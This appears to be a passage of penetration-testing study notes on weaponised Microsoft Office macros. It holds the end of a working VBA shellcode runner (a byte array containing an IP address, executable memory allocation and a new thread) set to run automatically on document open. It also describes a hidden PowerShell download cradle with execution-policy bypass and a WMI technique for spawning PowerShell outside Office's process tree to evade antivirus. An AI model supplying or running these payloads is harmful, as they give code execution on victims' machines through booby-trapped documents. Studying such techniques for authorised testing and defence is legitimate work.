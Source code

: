 ```vb
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```


### Powershell inside VBA

- Download cradle: hide a `powershell -exec bypass -nop -c iex()` inside a macro as a starting point
- call Shell stringArg, vbHide which will trigger some AV products
- problem is that Powershell becomes a child process of the calling MS Office program
- _Windows Management Instrumentation_ (WMI) framework can be leveraged to move around this
	- "**Windows Management Instrumentation** (**WMI**) consists of a set of extensions to the [Windows Driver Model](https://en.wikipedia.org/wiki/Windows_Driver_Model "Windows Driver Model") that provides an [operating system](https://en.wikipedia.org/wiki/Operating_system "Operating system") interface through which [instrumented](https://en.wikipedia.org/wiki/Instrumentation_(computer_programming) "Instrumentation (computer programming)") components provide information and notification." (https://en.wikipedia.org/wiki/Windows_Management_Instrumentation)
- Leverage WMI for process creation bypassing of MS Office and use WMI for the parent process
- To create a process, will need to use Win32_Process to instantiate
```vb
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```
- this will create a child Powershell process of the parent process Wmiprvse.exe
